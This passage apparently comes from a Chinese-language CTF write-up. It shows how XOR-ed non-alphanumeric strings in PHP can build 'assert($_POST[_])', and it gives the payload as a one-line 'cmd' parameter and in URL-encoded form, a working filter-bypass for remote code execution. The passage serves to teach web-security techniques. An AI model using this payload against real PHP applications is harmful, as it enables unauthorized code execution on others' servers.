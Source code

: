 ![image-20231019174653246](assets/image-20231019174653246.png)

 使用这个POC，我们可以得到:

```php
<?php
$_ = "!((%)("^"@[[@[\\";   //构造出assert
$__ = "!+/(("^"~{`{|";   //构造出_POST
$___ = $$__;   //$___ = $_POST
$_($___[_]);   //assert($_POST[_]);
结合到一行：
?cmd=$_ = "!((%)("^"@[[@[\\";$__ = "!+/(("^"~{`{|";$___ = $$__;$_($___[_]);
url编码一下：(url编码就是它的16进制编码前面加个%哈)
?cmd=%24_%20%3D%20%22!((%25)(%22%5E%22%40%5B%5B%40%5B%5C%5C%22%3B%24__%20%3D%20%22!%2B%2F((%22%5E%22~%7B%60%7B%7C%22%3B%24___%20%3D%20%24%24__%3B%24_(%24___%5B_%5D)%3B
```

代入此题的环境，可以看到，成功执行命令

![image-20231019174955972](assets/image-20231019174955972.png)

### 发三：根据ascii码表自己构造
